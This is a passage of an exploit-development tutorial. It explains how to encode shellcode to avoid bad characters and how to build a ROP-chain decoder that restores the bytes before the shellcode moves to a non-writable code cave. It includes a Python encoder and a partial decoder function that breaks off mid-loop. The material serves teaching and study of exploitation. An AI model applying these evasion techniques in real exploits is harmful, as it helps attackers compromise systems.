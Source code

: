     We can encode our shellcode using the following python code, which effectively replaces the bad chars with our new values as per the table summary. 
    
    ```python
    def encodeShellcode(shellcode):
        badchars = bytearray(b"\x00\x20")
        encodedchars = bytearray(b"\xff\x1f")
        encodedShellcode = shellcode
        for i in range(len(badchars)):
            encodedShellcode = encodedShellcode.replace(pack("B", badchars[i]), pack("B", encodedchars[i]))
        return encodedShellcode
    ```
    
    Next we need to incorporate the above into our shellcode and write our decoder. We require a pointer to our encoded shellcode, a perfect location is between the patching of the `LPBUFFER` and `NSIZE` location. 
    
    For our decoding routine which will take two arguments as input. Initially, we'll prepare a list of potential bad characters and their respective replacement characters. Then, we'll establish an accumulator variable (named restoreRop) that will hold the entire decoding ROP chain.
    
    Following this, we'll execute a loop over all the indices of the bad characters. For every entry, we'll compute the offset from the last bad character to the current one. We'll then negate this offset, assign it to the variable `neg_offset`, and utilize it in the ROP chain. To ascertain the value to be added to the substitute character, we'll implement an inner loop over all potential bad characters to identify which one exists at the corresponding index. Once located, this value is stored in the variable named `value`.
    
    As the content of `value` needs to be popped into BL|AL|BH, it should be left-shifted by 8 bits. This action results in a value that aligns with the AL|BH register but also includes NULL bytes. To counteract the NULL byte issue, we'll carry out an OR operation with a static value of `0x11110011`. Ultimately, this outcome is inscribed into the ROP chain where it will be popped into another register during execution.
    
    This intricate procedure facilitates custom encoding. Moreover, it enables us to decode the shellcode prior to its transfer to the non-writable code cave.
    
    ```python
    # AL register = 0x11111100 (value = value | 0x11110011)
    # BH register = 0x11110011 (value = (value << 8) | 0x11110011)
    
    def decodeShellcode(badIndex, shellcode):
        badchars = bytearray(b"\x00\x20")
        addencodedchars = bytearray(b"\x01\x01")
        restoreRop = b""
        for i in range(len(badIndex)):
            if i == 0:
                offset = badIndex[i]
            else:
                offset = badIndex[i] - badIndex[i-1]
            neg_offset = (-offset) & 0xffffffff
    
